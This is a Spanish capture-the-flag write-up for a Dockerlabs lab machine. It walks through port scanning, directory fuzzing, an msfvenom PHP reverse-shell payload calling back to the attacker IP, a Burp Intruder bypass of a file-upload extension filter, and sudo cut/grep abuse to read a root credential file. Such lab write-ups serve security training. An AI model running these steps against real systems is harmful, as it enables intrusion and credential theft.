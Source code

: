 # Dockerlabs

* Máquina **atacante** -> 172.17.0.1
* Máquina **objetivo** -> 172.17.0.2 | Linux :penguin:

### Escaneo de puertos

Realizamos un escaneo de puertos con *nmap* para ver puertos abiertos de la máquina **objetivo**:
```shell
nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 172.17.0.2
```
![scan](/Capturas/2024-12-05_17-48.png)

La máquina solamente presenta el puerto **80** abierto.

### HTTP

Al buscar la dirección en nuestro navegador, vemos que hay una página "imitación" de la plataforma **Dockerlabs** con alguna de sus máquinas, pero no podemos interactuar con ella:

![http](/Capturas/2024-12-05_17-52.png)

Por lo que procedemos a realizar **fuzzing web** con *gobuster* para buscar directorios ocultos:
```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .txt,.py,.php,.sh
```
![gobuster](/Capturas/2024-12-05_17-54.png)

Encontramos dos cosas interesantes, **/uploads** y **/machine.php**. La primera se trata de un directorio donde podemos acceder a los archivos subidos al servidor, y la segunda nos permite subir archivos a dicho servidor. Por lo que parecer ser que esta máquina presenta una vulnerabilidad de File Upload:

![uploads](/Capturas/2024-12-05_18-01.png)
![machine](/Capturas/2024-12-05_18-01_1.png)

Para explotar esta vulnerabilidad, crearemos un payload que nos otorgue una reverse shell de la máquina **objetivo** con *msfvenom*:
```shell
msfvenom -p php/reverse_php LHOST=172.17.0.1 LPORT=443 -f raw > payload.php
```
Una vez creado, lo subimos al servidor desde 172.17.0.2/machine.php y comprobamos que se ha subido en 172.17.0.2/uploads:

![archivo_subido](/Capturas/2024-12-05_18-34.png)

Pero nos reporta este mensaje, por lo que debemos realizar un Bypass para que se lo "coma".

### Burpsuite

Como no sabemos qué extensión puede permitirnos subir el archivo, vamos a usar *Burpsuite* para interceptar la petición, modificarla y así obtener éxito.

1. Volvemos a subir el archivo, pero interceptando la petición con *Burpsuite*.
![proxy](/Capturas/2024-12-05_18-40.png)

2. La enviamos al **intruder** y añadimos como variable "php" para poder ir probando diferentes extensiones hasta encontrar una que funcione.
![add](/Capturas/2024-12-05_18-48.png)

3. Ahora debemos seleccionar el mensaje de error, para que cuando nos devuelva un mensaje diferente percatarnos.
![error](/Capturas/2024-12-05_18-54.png)

4. Cargamos un diccionario de extensiones en el apartado de **payloads**.
![dicc](/Capturas/2024-12-05_18-58.png)

5. Iniciamos el ataque y vemos que una de las extensiones da éxito.
![start](/Capturas/2024-12-05_19-00.png)

Ahora simplemente, subimos el archivo con esa extensión y si nos vamos a /uploads, podemos ver que se ha subido con éxito:

![subidaexito](/Capturas/2024-12-05_19-02.png)

Finalmente nos ponemos a la escucha con *netcat* y nos enviamos la reverse shell.

### Escalada de privilegios

Al ejecutar el comando `sudo -l` nos muestran que podemos ejecutar *cut* y *grep* como usuario **root**:

![cutygrep](/Capturas/2024-12-05_19-32.png)

Por lo que ahora, debemos investigar la máquina para encontrar alguna pista que nos permita continuar con la escalada.

Tras un rato de investigación, observamos que en **/opt** existe un archivo.txt que nos da la pista que necesitábamos para finalizar la escalada:

![escal](/Capturas/2024-12-05_19-36.png)

Ahora, leemos el contenido de **/root/clave.txt** ejecutando cut o grep como **root**:
```shell
sudo /usr/bin/cut -d "" -f1 "/root/clave.txt"
```
![lectura](/Capturas/2024-12-05_19-37.png)

Y ya solo nos queda usar las credenciales...

![cred](/Capturas/2024-12-05_19-38.png)

Para ser **root** :triangular_flag_on_post:
